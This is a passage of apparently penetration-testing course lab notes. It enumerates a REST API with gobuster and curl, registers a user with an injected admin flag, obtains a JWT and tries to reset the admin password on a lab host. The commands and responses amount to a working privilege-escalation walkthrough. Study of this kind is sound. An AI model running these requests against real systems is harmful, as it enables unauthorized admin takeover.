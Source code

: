 ```shell
gobuster dir -u http://192.168.50.16:5002/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt
```
5. Inspect found APIs with curl
```shell
# -i instructs curl to include HTTP response headers
curl -i http://192.168.50.16:5002/users/v1/admin/password
```
6. Attempt to  try to convert the above GET request into a POST and provide our payload in the required JSON format
    ```shell
    curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login

    { "status": "fail", "message": "Password is not correct for the given username."}
    ```
    * The API return message shows that the authentication failed, meaning that the API parameters are correctly formed.
	* Try another route and check whether we can register as a new user
    ```shell
    curl -d '{"password":"lab","username":"offsecadmin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/register

    { "status": "fail", "message": "'email' is a required property"}
    ```
	* We need email, but lets also try adding admin key, with value of true 
    ```shell
    curl -d '{"password":"lab","username":"offsec","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.50.16:5002/users/v1/register
    {"message": "Successfully registered. Login to receive an auth token.", "status": "success"}
    ```
    * No error recieved, try logging in with login API discovered earlier.
    ```shell
    curl -d '{"password":"lab","username":"offsec"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
    {"auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew", "message": "Successfully logged in.", "status": "success"}
    ```
    * Successfull login, and retrieval of  JSON Web Token (JWT) authentication token
    * User token to prove login by changing admin user password
    ```shell
        curl  \
        'http://192.168.50.16:5002/users/v1/admin/password' \
        -H 'Content-Type: application/json' \
        -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew' \
        -d '{"password": "pwned"}'

        {
        "detail": "The method is not allowed for the requested URL.",
        "status": 405,
        "title": "Method Not Allowed",
        "type": "about:blank"
        }
    ```
    * HTTP method is unsupported, so we’ll try an alternative.
    * PUT method (along with PATCH) is often used to replace a value as opposed to creating one via a POST request
    ```shell
        curl -X 'PUT' \
        'http://192.168.50.16:5002/users/v1/admin/password' \
        -H 'Content-Type: application/json' \
        -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
        -d '{"password": "pwned"}'    